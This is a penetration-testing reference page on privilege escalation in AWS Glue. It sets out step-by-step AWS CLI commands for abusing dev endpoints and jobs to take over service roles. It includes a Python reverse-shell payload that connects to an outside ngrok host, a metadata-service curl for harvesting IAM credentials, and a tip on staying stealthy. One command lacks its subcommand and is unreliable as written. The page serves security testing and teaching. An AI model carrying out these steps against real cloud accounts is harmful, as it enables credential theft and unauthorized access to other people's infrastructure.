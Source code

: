 # AWS - Glue Privesc

{{#include ../../../banners/hacktricks-training.md}}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Users with these permissions can **set up a new AWS Glue development endpoint**, **assigning an existing service role assumable by Glue** with specific permissions to this endpoint.

After the setup, the **attacker can SSH into the endpoint's instance**, and steal the IAM credentials of the assigned role:

```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
    --role-arn <arn-role> \
    --public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

For stealth purpose, it's recommended to use the IAM credentials from inside the Glue virtual machine.

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Users with this permission can **alter an existing Glue development** endpoint's SSH key, **enabling SSH access to it**. This allows the attacker to execute commands with the privileges of the endpoint's attached role:

```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
    --public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

**Potential Impact:** Privesc to the glue service role used.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Users with **`iam:PassRole`** combined with either **`glue:CreateJob` or `glue:UpdateJob`**, and either **`glue:StartJobRun` or `glue:CreateTrigger`** can **create or update an AWS Glue job**, attaching any **Glue service account**, and initiate the job's execution. The job's capabilities include running arbitrary Python code, which can be exploited to establish a reverse shell. This reverse shell can then be utilized to exfiltrate the **IAM credential**s of the role attached to the Glue job, leading to potential unauthorized access or actions based on the permissions of that role:

```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
    --name privesctest \
    --role arn:aws:iam::93424712358:role/GlueAdmin \
    --command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
    --actions '[{"JobName": "privesctest"}]' --start-on-creation \
    --schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateJob`

Just with the update permission an attacked could steal the IAM Credentials of the already attached role.

**Potential Impact:** Privesc to the glue service role attached.

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../banners/hacktricks-training.md}}





